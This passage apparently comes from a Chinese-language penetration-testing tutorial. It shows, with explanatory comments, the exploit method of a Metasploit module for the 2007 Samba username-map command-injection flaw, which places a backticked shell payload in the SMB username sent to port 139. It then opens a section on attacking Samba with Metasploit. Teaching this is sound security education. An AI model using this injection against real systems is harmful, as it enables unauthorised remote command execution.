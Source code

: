 ```
          'Compat'      =>
            {
              'PayloadType' => 'cmd',
              # *_perl and *_ruby work if they are installed
              # mileage may vary from system to system..
            }
        },
      'Targets'        =>
        [
          [ "Automatic", { } ]
        ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => 'May 14 2007'))

    # 模块配置参数，使用的远程端口号默认为 139
    register_options(
      [
        Opt::RPORT(139)
      ], self.class)
  end


  # 攻击过程
  def exploit
    
    # 连接目标服务 139 端口
    connect

    # 使用 payload 构建用户名，其中包含的 nohup 用来让命令在后台运行而不退出
    username = "/=`nohup " + payload.encoded + "`"
    
    # 进行 Samba 客户端连接操作，发送命令触发漏洞，如果出错则退出
    begin
      simple.client.negotiate(false)
      simple.client.session_setup_no_ntlmssp(username, rand_text(16), datastore['SMBDomain'], false)
    rescue ::Timeout::Error, XCEPT::LoginError
      # nothing, it either worked or it didn't ;)
    end

    handler
  end

end
```

## 9. 使用 Metasploit 渗透攻击 Samba 漏洞

下面我们将会学习使用 Metasploit 渗透攻击 Samba 漏洞。

### 9.1 启动 Metasploit
